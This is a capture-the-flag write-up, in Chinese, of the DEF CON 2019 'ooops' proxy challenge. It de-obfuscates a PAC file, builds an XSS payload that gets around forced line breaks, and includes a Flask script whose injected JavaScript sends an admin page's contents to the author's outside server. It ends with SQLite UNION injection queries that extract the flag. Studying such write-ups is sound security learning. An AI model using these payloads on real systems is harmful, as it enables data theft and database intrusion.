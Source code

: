 # ooops

## info.pac

題目只給這個檔案

裡頭內容:

```javascript
eval((function(){var s=Array.prototype.slice.call(arguments),G=s.shift();return s.reverse().map(function(f,i){return String.fromCharCode(f-G-19-i)}).join('')})(29,202,274,265,261,254,265,251,267,227,179,247,249,260,175,244,252,172,253,239,237,250,214,166,248,237,163,245,244,229,226,225,222,156,233,219,220,152,234,219,218,237,226,222,225,221,212,142,228,219,215,208,219,205,221,213,133,221,207,208,208,128,196,198,177,124,133,137,121,120,97,209,117,125,199,197,192,184,111,122,185,190,192,114,183,183,176,186,168,178,184,168,97,125,95,138,143,145,173,169,127,177,175,165,167,132,151,160,154,118)+(16).toString(36).toLowerCase().split('').map(function(c){return String.fromCharCode(c.charCodeAt()+(-71))}).join('')+(28).toString(36).toLowerCase().split('').map(function(d){return String.fromCharCode(d.charCodeAt()+(-39))}).join('')+(880).toString(36).toLowerCase()+(16).toString(36).toLowerCase().split('').map(function(I){return String.fromCharCode(I.charCodeAt()+(-71))}).join('')+(671).toString(36).toLowerCase()+(16).toString(36).toLowerCase().split('').map(function(p){return String.fromCharCode(p.charCodeAt()+(-71))}).join('')+(1517381).toString(36).toLowerCase()+(16).toString(36).toLowerCase().split('').map(function(W){return String.fromCharCode(W.charCodeAt()+(-71))}).join('')+(31).toString(36).toLowerCase().split('').map(function(x){return String.fromCharCode(x.charCodeAt()+(-39))}).join('')+(30598).toString(36).toLowerCase()+(31).toString(36).toLowerCase().split('').map(function(M){return String.fromCharCode(M.charCodeAt()+(-39))}).join('')+(842).toString(36).toLowerCase()+(function(){var T=Array.prototype.slice.call(arguments),F=T.shift();return T.reverse().map(function(Q,S){return String.fromCharCode(Q-F-18-S)}).join('')})(36,161,205,187,188,200,190,184,154,146,223,226,228,226,210,222,139,147,146,143,214,207,147,219,210,206,199,210,196,212,204,203,202,129,121,132,203,201,196,188,123,186,180,196,176,155,189,196,144,178,188,112,103,172,174,100,99,76,112,106,95,181,172,168,161,172,158,174,134,112)+(11).toString(36).toLowerCase().split('').map(function(H){return String.fromCharCode(H.charCodeAt()+(-39))}).join('')+(1657494275).toString(36).toLowerCase()+(599).toString(36).toLowerCase().split('').map(function(o){return String.fromCharCode(o.charCodeAt()+(-71))}).join('')+(42727).toString(36).toLowerCase().split('').map(function(p){return String.fromCharCode(p.charCodeAt()+(-39))}).join('')+(519).toString(36).toLowerCase().split('').map(function(i){return String.fromCharCode(i.charCodeAt()+(-13))}).join('')+(16).toString(36).toLowerCase().split('').map(function(V){return String.fromCharCode(V.charCodeAt()+(-71))}).join('')+(41462560).toString(36).toLowerCase()+(30).toString(36).toLowerCase().split('').map(function(h){return String.fromCharCode(h.charCodeAt()+(-71))}).join('')+(2103412979233).toString(36).toLowerCase()+(function(){var n=Array.prototype.slice.call(arguments),z=n.shift();return n.reverse().map(function(l,V){return String.fromCharCode(l-z-58-V)}).join('')})(9,190,182,181,180,114,124)+(892604048).toString(36).toLowerCase()+(30).toString(36).toLowerCase().split('').map(function(T){return String.fromCharCode(T.charCodeAt()+(-71))}).join('')+(18).toString(36).toLowerCase()+(function(){var V=Array.prototype.slice.call(arguments),v=V.shift();return V.reverse().map(function(i,Y){return String.fromCharCode(i-v-53-Y)}).join('')})(48,160,212)+(8).toString(36).toLowerCase()+(function(){var q=Array.prototype.slice.call(arguments),b=q.shift();return q.reverse().map(function(X,r){return String.fromCharCode(X-b-11-r)}).join('')})(1,54,62,69,60)+(11).toString(36).toLowerCase().split('').map(function(y){return String.fromCharCode(y.charCodeAt()+(-39))}).join('')+(20).toString(36).toLowerCase().split('').map(function(S){return String.fromCharCode(S.charCodeAt()+(-97))}).join('')+(function(){var u=Array.prototype.slice.call(arguments),r=u.shift();return u.reverse().map(function(e,v){return String.fromCharCode(e-r-55-v)}).join('')})(27,207));
```

把`eval`拿掉，可以發現裡頭其實是一個function:

```javascript
FindProxyForURL = function(url, host) {\n  /* The only overflow employees can access is Order of the Overflow. Log in with OnlyOne:Overflow */\n  if (shExpMatch(host, \'oooverflow.io\')) return \'DIRECT\';return \'PROXY ooops.quals2019.oooverflow.io:8080\';\n}
```

## proxy

裡面告訴我們proxy的帳號和密碼: `OnlyOne:Overflow`

開個瀏覽器，用這組帳密連他的proxy: `ooops.quals2019.oooverflow.io:8080`

然後可以發現只要Request URL帶有`oooverflow`都會變成Unblock Request的頁面

其中`/ooops/d35fs23hu73ds/review.html`可以回報`url`和`justification`

嘗試回報自己的機器，會收到以下Request:

```
GET /test HTTP/1.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
referer: http://10.0.1.101:5000/admin/view/14
user-agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
proxy-authorization: Basic T25seU9uZTpPdmVyZmxvdw==
connection: close
accept-encoding: gzip, deflate
accept-language: en,*
host: kaibro.tw:2222
X-Forwarded-For: 10.0.1.101
```

## XSS

main.js:

```javascript
function split_url(u) {
    u = decodeURIComponent(u); // Stringify
    output = u[0];
    for (i=1;i<u.length;i++) {
        output += u[i]
        if (i%55==0) output+= "<br/>";
    }
    console.log(output)
    return output
}
window.onload = function () { 
    d = document.getElementById("blocked");
    d.innerHTML=(split_url(document.location) + " is blocked")
}
```

這邊他會把我們的Request path每 `55` 個字元塞一個`<br>`，之後放進`innerHTML`中

很明顯可以XSS

(可以透過`/**/`註解的方式，去搞定中間塞`<br>`的問題)

e.g. `/1111111111111111111<svg/onload="alert();/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/alert(123);">`

不過有個問題，Bot的domain和我們丟給他的`url`要相同，不然Cross-site會沒辦法XSS讀Response

這邊有兩種方法可以讓它Same-origin: 1. DNS Rebindding  2. 利用前面的方式，塞`10.*.*.*/oooverflow`強制讓他訪問Unblock Request頁面去XSS

## Read Response

由於他每次訪問的IP都不同，所以為了要Same-origin，我們必須先抓出`X-Forwarded-For`的來源

再Redirect到這個IP上去做XSS

以下改自@bookgin的腳本:

```python
#!/usr/bin/env python3
from flask import Flask, request, redirect
import base64

app = Flask(__name__)

def genurl(ip): # e.g. 10.1.2.3:5000
    def b64e(x):
        return base64.b64encode(x.encode()).decode()

    host = 'http://'+ip+'/oooverflow'

    js = '''
var snd = function(data) {
document.getElementsByTagName('body')[0].appendChild(document.createElement('img')).src='http://kaibro.tw:5000/a?'+data;
}

setInterval(function(){snd('ping');},500+500);

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
var txt = xhr.responseText;
snd(btoa(txt));
}
}
xhr.open('GET', 'http://REPLACEME/admin/view/1', true);
xhr.send(null);
'''.replace('REPLACEME', ip)

    assert '"' not in js
    b64_js = b64e(js)

    xss = '<img src=x onerror="eval(atob(\'{}\'))">'.format(b64_js)
    delimeter = "'/**/+'"
    payload = 'bbbb' # shift 4 bytes
    delta = 55 - len(delimeter)
    for i in range(0, len(xss), delta):
        print(xss[i:i+delta] + delimeter)
        payload += xss[i:i+delta] + delimeter
    payload = payload[:-len(delimeter)] # remove last delimeter
    payload = host.ljust(56, 'a') + payload
    return payload

@app.route('/')
def index():
    ip = request.environ.get('HTTP_X_FORWARDED_FOR').rsplit(',')[-1]
    ip = ip + ':5000'
    return redirect(genurl(ip), code=302)

if __name__ == '__main__':
    app.run(port=5000, host="0.0.0.0")
```

之後我們只要提交`http://yourdomain:5000`即可收到`/admin/view/1`的Response內容

會收到類似下面的Response:

```html
<!doctype html>
<html>
<head>
<title>OOOPS &mdash; Evaluate Requests</title>

<link href="/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous"></head>
<body>
<div class="container">
<div class="row">

<!-- Query: select rowid,* from requests where rowid=1 -->

<p>
Request #1 from 2.
 Automatically evaluated
</p>

<a id="lnk" class="btn btn-secondary btn-block btn-lg" href="1">
Visit 1
</a>

</div>
</div>
</body>
</html>
```

可以注意到其中有句註解`<!-- Query: select rowid,* from requests where rowid=1 -->`

看起來87%是要做SQL Injection

## SQL Injection

一樣，從XSS那邊去試著對admin panel做SQL Injection:

訪問: `http://10.*.*.*:5000/admin/view/1 order by 10`

得到:

```
SQL Error: 1st ORDER BY term out of range - should be between 1 and 5
```

所以可以知道欄位個數有 5 個，而且從ERROR Message可以知道是SQLite

<br>

訪問: `http://10.*.*.*:5000/admin/view/1 and 1=2 union select 1,2,3,sql,5 FROM sqlite_master WHERE type='table'`

得到表結構:

```
CREATE TABLE flag (name TEXT, flag TEXT)
```

<br>

訪問: `http://10.*.*.*:5000/admin/view/1 and 1=2 union select 1,2,3,flag,5 FROM flag`

得到flag:

```
OOO{C0rporateIns3curity}
```

